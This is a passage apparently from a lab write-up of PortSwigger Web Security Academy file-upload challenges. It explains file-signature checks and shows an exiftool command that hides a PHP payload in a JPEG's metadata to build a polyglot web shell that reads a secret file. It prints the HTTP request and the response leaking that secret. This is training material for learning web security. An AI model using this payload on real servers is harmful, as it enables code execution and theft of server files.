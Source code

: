 Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

**Solution**: 
Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:

```shell
╭─asif@Asifs-Air ~/Downloads
╰─$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" test.jpg -o polyglot.php
    1 image files created
```

Getting the file

```http
GET /files/avatars/polyglot.php HTTP/1.1
Host: 0a2700f703e3e3728088be800009006e.web-security-academy.net
Cookie: session=pXNJ0ffiEQEPq80eqGAw5j1zTXSXE3pW
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2700f703e3e3728088be800009006e.web-security-academy.net/my-account/avatar
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

HTTP/1.1 200 OK
Date: Tue, 13 Aug 2024 07:07:02 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 7446
      
(    ¸6curv       Í  sf32     B  Þÿÿó&    ýÿÿû¢ÿÿý£  Ü  Àlÿþ MSTART 5LkwxGEq3XjIpilUm9IihlrAcztTmlML ENDÿÛ 
```

#### Web shell upload via race condition
Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.
